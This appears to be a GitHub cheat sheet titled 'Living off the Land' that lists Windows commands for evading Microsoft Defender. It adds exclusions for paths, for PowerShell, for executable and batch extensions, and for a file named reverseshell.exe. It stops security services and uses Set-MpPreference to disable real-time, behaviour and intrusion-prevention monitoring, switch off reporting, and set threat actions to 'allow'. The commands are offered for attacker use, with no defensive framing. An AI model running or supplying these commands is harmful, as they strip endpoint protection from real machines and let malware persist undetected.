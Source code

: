 # Living off the Land

## 01 - Add Exclusions

Note: You must run this as administrator add any exclusions

```
PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp

PS C:\> Add-MpPreference -ExclusionProcess powershell.exe

PS C:\> Add-MpPreference -ExclusionExtension ".exe"

PS C:\> Add-MpPreference -ExclusionExtension ".bat"

PS C:\> Add-MpPreference -ExclusionPath C:\Windows\Temp\reverseshell.exe
```

## 02 - Windows Security

### 2.1 - Disable

#### 2.1.1 - Command Prompt

```
C:\> net stop "Security Center"
```

Note: Just the rest of these are not tested just yet

```
C:\> net stop "WdNisSvc"

C:\> net stop "WdNisDrv"

C:\> net stop "WdFilter"

C:\> net stop "WdBoot"

C:\> net stop "wcncsvc"
```

#### 2.1.2 - Powershell

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true

Set-MpPreference -SignatureDisableUpdateOnStartupWithoutEngine $true

Set-MpPreference -DisableBehaviorMonitoring $true

Set-MpPreference -DisableIntrusionPreventionSystem $true

Set-MpPreference -SubmitSamplesConsent 2

Set-MpPreference -PUAProtection Disable

Set-MpPreference -DisablePrivacyMode $true

Set-MpPreference -MAPSReporting 0

Set-MpPreference -HighThreatDefaultAction 6 -Force

Set-MpPreference -ModerateThreatDefaultAction 6

```